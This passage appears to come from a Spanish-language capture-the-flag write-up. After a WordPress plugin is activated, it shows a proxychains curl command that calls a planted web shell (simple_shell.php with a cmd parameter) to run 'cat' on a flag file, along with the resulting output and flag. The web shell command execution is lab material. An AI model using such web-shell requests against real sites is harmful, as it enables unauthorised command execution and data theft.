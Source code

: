 <div style="text-align:center">
	<img src="{{ 'assets/img/pen/Pasted image 20230312203151.png' | relative_url }}" text-align="center"/>
</div>

Lo activamos y empleamos curl para obtener la flag:

```
proxychains curl "http://127.0.0.1:80/wp-content/plugins/simple_shell/simple_shell.php?cmd=cat+/home/flag.txt"
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  127.0.0.1:80  ...  OK
<pre>OS{4d773b497a8816027c105b13cb0a72da}</pre> 
```
